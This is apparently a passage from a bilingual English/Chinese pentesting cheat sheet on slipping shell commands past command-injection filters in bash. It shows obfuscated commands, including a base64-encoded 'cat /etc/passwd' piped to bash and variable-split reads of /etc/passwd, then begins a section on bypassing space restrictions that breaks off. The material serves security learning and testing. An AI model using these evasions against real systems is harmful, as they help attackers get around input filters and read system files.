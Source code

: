 ```bash

# $@
who$@ami #whoami

# Transformations (case, reverse, base64)
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi") #whoami -> Upper case to lower case
$(a="WhOaMi";printf %s "${a,,}") #whoami -> transformation (only bash)
$(rev<<<'imaohw') #whoami
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) #base64


# Execution through $0
echo whoami|$0

# Uninitialized variables: A uninitialized variable equals to null (nothing)
cat$u /etc$u/passwd$u # Use the uninitialized variable without {} before any symbol
p${u}i${u}n${u}g # Equals to ping, use {} to put the uninitialized variables between valid characters

# Fake commands
p$(u)i$(u)n$(u)g # Equals to ping but 3 errors trying to execute "u" are shown
w`u`h`u`o`u`a`u`m`u`i # Equals to whoami but 5 errors trying to execute "u" are shown

# Concatenation of strings using history
!-1 # This will be substitute by the last command executed, and !-2 by the penultimate command
mi # This will throw an error
whoa # This will throw an error
!-1!-2 # This will execute whoami
```
### 绕过禁止空格

In some cases, when trying to execute commands that contain spaces, you may encounter restrictions that prevent the execution. However, there are several techniques you can use to bypass these restrictions and successfully execute the desired commands.

在某些情况下，当尝试执行包含空格的命令时，可能会遇到阻止执行的限制。然而，有几种技术可以绕过这些限制并成功执行所需的命令。

#### Technique 1: Enclosing the command in quotes

One way to bypass the restriction is to enclose the entire command in quotes. This tells the shell to treat the entire command as a single argument, effectively bypassing any restrictions on spaces.

#### 技术1：在引号中包含命令

绕过限制的一种方法是将整个命令包含在引号中。这告诉shell将整个命令视为单个参数，有效地绕过任何对空格的限制。

```bash
$ echo "command with spaces"
```

#### Technique 2: Using escape characters

Another technique is to use escape characters, such as backslashes, to escape the spaces in the command. This tells the shell to treat the spaces as literal characters and not as argument separators.
